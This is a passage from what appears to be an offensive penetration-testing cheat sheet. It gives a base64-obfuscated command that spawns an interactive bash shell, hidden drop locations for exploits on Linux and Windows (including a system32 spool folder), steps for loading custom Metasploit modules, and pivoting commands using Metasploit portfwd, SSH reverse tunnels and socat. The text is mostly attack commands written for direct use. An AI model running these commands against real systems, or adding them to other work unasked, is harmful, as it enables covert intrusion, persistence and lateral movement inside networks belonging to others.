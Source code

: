 ```python
sh -c "$(echo cHl0aG9uIC1jICdpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw== | base64 -d)"
```
### Location to Write / Upload exploits:
```bash
/tmp/.hidden
/dev/shm/.hidden
```
powershell
```
C:\\Temp\\.hidden
C:\\windows\\system32\\spool\\drivers\\color\\.hidden
```

### Importing modules to Metasploit
```bash
cd /root/.msf4/modules/exploits/custom
cp <MODULE> ./

# Update Metasploit
updatedb && msfdb init
```

## Portforwarding Techniques
### Via Metasploit
```bash
# Gain a meterpreter session
msf5> portfwd add -l <LOCAL_PORT> -p <TARGET_PORT> -r <REMOTE_ADDRESS>
```
### Via SSH
```bash
# Connecting from our machine to the remote machine with SSH creds
ssh -L <LOCAL_PORT>:localhost:<REMOTE_TARGET_PORT> -nNT sshCreds@<REMOTE> # Run this on your machine 

# Forwards port from remote machine to local machine 
ssh -R <REMOTE_PORT>:localhost:<LOCAL_TARGET_PORT> -nNT yourSSHCreds@<LOCAL> # Run this on the remote machine (addresses can be substituted with other interface addresses)
```
### Via Socat
```bash
# Run on local machine (listener, redirects all traffic from 10000 to specified port)
socat -v TCP4-LISTEN:10000 TCP4-LISTEN:<PORT>

# Run on remote host
socat TCP4:<YOUR_ADDRESS>:<YOUR_LISTENER_PORT> TCP4:localhost:<TARGET_PORT>
```
### Via Netcat

References:
* https://ironhackers.es/en/cheatsheet/port-forwarding-cheatsheet/


